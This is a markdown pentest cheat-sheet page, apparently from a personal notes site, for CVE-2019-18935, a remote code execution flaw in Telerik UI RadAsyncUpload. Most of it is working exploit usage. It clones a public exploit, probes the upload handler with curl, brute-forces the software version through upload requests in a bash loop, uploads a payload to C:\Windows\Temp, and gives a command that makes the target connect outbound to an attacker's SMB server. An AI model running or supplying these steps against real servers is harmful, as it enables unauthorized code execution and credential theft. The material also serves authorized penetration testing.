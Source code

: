 ```yaml
---
title : "CVE-2019-18935"
# pre : ' '
description : "Telerik UI ASP.NET AJAX RadAsyncUpload Deserialization - Remote Code Execution."
date : 2021-01-18T13:14:31+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2019-18935 - Telerik UI ASP.NET AJAX RadAsyncUpload Deserialization - Remote Code Execution

{{%attachments title="Related files" fa_icon_class="far fa-file-pdf" pattern=".*(pdf)"/%}}

### Installation

```plain
git clone https://github.com/noperator/CVE-2019-18935.git
```

### Confirm that the file upload handler is registered

```plain
curl -sk <HOST>/Telerik.Web.UI.WebResource.axd?type=rau
{ "message" : "RadAsyncUpload handler is registered succesfully, however, it may not be accessed directly." }
```

### Check version of the software installed

#### Without authentication

If the application using RadAsyncUpload does not require authentication, then you can usually find the UI version buried somewhere in the HTML source of the application's home page. The location of the version string isn't consistent, though, so the best method of locating it is to use Burp to search for the regular expression ```20[0-9]{2}(\.[0-9]*)+``` (and make sure you check the "Regex" box). You can also accomplish this with cURL:

```plain
curl -skL <host> | /usr/bin/grep -oE '20[0-9]{2}(\.[0-9]*)+'
```

If that doesn't work, you can alternatively search for the string ```<script src="/WebResource``` to identify any JavaScript files that are included in the site's home page. Choose one of the static resources there and examine its ```Last-Modified``` date in the HTTP response header; that date should roughly match the release date of the software. For example, a JavaScript resource bundled with UI for ASP.NET AJAX Q1 2013 (v2013.1.220, released on February 20, 2013) will read ```Last-Modified: Wed, 20 Feb 2013 00:00:00 GMT``` in the HTTP response header for that file.

#### With authentication

If the application does require authentication, then you may be able to determine the software version via brute force. Since uploading a file with RadAsyncUpload requires providing the correct version of Telerik UI, you can use Paul Taylor's [RAU_crypto](https://github.com/bao7uo/RAU_crypto) exploit to submit file upload requests with known-vulnerable versions until you find one that works:

```plain
echo 'test' > testfile.txt
for VERSION in 2007.1423 2007.1521 2007.1626 2007.2918 2007.21010 2007.21107 2007.31218 2007.31314 2007.31425 2008.1415 2008.1515 2008.1619 2008.2723 2008.2826 2008.21001 2008.31105 2008.31125 2008.31314 2009.1311 2009.1402 2009.1527 2009.2701 2009.2826 2009.31103 2009.31208 2009.31314 2010.1309 2010.1415 2010.1519 2010.2713 2010.2826 2010.2929 2010.31109 2010.31215 2010.31317 2011.1315 2011.1413 2011.1519 2011.2712 2011.2915 2011.31115 2011.3.1305 2012.1.215 2012.1.411 2012.2.607 2012.2.724 2012.2.912 2012.3.1016 2012.3.1205 2012.3.1308 2013.1.220 2013.1.403 2013.1.417 2013.2.611 2013.2.717 2013.3.1015 2013.3.1114 2013.3.1324 2014.1.225 2014.1.403 2014.2.618 2014.2.724 2014.3.1024 2015.1.204 2015.1.225 2015.2.604 2015.2.623 2015.2.729 2015.2.826 2015.3.930 2015.3.1111 2016.1.113 2016.1.225 2016.2.504 2016.2.607 2016.3.914 2016.3.1018 2016.3.1027 2017.1.118 2017.1.228 2017.2.503 2017.2.621 2017.2.711 2017.3.913; do
    echo -n "$VERSION: "
    python3 RAU_crypto.py -P 'C:\Windows\Temp' "$VERSION" testfile.txt <HOST>/Telerik.Web.UI.WebResource.axd?type=rau 2>/dev/null | grep fileInfo || echo
done
```

When the file upload succeeds, you'll see a JSON response containing some encrypted data about the uploaded file:

```plain
{"fileInfo":{"FileName":"<NAME>","ContentType":"text/html","ContentLength":<LENGTH>,"DateJson":"<DATE>","Index":0}, "metaData":"VGhpcyBpc24ndCByZWFsIGRhdGEsIGJ1dCB0aGUgQmFzZTY0LWVuY29kZWQgZGF0YSBsb29rcyBqdXN0IGxpa2UgdGhpcy4=" }
```

### Examples

#### Check version

```plain
$ curl -skL https://example.com/ | /usr/bin/grep -oE '20[0-9]{2}(\.[0-9]*)+'              
2015.2.623.40
2015.2.623.40
2015.2.623.40
2015.2.623.40
```

#### Upload test file

```plain
$ python3 CVE-2019-18935.py -p test.txt -t -f 'C:\Windows\Temp' -u https://www.example.com/Telerik.Web.UI.WebResource.axd\?type\=rau -v 2015.2.623
[*] Local payload name:  test.txt
[*] Destination folder:  C:\Windows\Temp
[*] Remote payload name: 1610022896.082644.txt

{'fileInfo': {'ContentLength': 5,
              'ContentType': 'application/octet-stream',
              'DateJson': '1970-01-01T00:00:00.000Z',
              'FileName': '1610022896.082644.txt',
              'Index': 0},
 'metaData': {'AsyncUploadTypeName': 'Telerik.Web.UI.UploadedFileInfo, '
                                     'Telerik.Web.UI, Version=2015.2.623.40, '
                                     'Culture=neutral, '
                                     'PublicKeyToken=121fae78165ba3d4',
              'TempFileName': '1610022896.082644.txt.tmp'}}

[*] Heads up! Payload was renamed on target from "1610022896.082644.txt" to "1610022896.082644.txt.tmp". Will adjust automatically while deserializing; otherwise, if deserializing manually with the "-d" option, use the "-r" option to specify the accurate, renamed payload on target.
```

### Triggering SMB-outbound

```plain
python3 CVE-2019-18935.py -u https://<host>/Telerik.Web.UI.WebResource.axd\?type\=rau -v 2015.2.623 -s <ip-of-smb-server> -d
```

### URL list

* [Labs.bischopfox.com - RCE explanation](https://labs.bishopfox.com/tech-blog/cve-2019-18935-remote-code-execution-in-telerik-ui)
* [Nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2019-18935)
* [Tenable.com](https://www.tenable.com/cve/CVE-2019-18935)
